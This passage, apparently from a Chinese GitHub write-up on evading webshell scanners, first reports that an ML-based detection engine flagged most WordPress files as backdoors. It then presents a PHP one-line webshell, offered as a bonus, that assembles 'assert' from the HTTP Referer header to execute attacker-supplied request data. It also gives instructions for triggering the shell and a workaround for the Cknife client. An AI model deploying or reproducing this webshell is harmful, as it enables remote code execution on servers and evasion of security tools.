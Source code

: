 ## 小插曲

在测试期间，还对河马机器学习查杀引擎  http://ml.shellpub.com 进行过测试，发现突破不了。测试中，发现连下面的正常语句都会被杀：

```php
<?php
array(1)
?>
```

所以就将Wordpress的源码上传，测试下系统的可用性。1774个文件，发现了1494个疑似后门。系统的测试结果不能作为判断标准，所以正文中略过了对该平台的测试。

![机器学习在线查杀](failed-3.png)

## 0x07: 彩蛋

最后再给出一个可以绕过当前市面上几乎所有Webshell查杀的PHP一句话木马脚本[forward_static_call_array-referer-ass.php](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/php/forward_static_call_array-referer-ass.php)。请求时，设置Referer头，后面以"ass\****"结尾即可,比如：`Referer: http://www.target.com/ass.php`。

在使用Cknife时，注意软件实现有缺陷，会从第二个":"处截断，可改成`Referer: http%3a//www.target.com/ass.php`

```php
<?php
/**
 * Noticed: (PHP 5 >= 5.3.0, PHP 7)
 *
 */
$password = "LandGrey";
$wx = substr($_SERVER["HTTP_REFERER"],-7,-4);
forward_static_call_array($wx."ert", array($_REQUEST[$password]));
?>
```
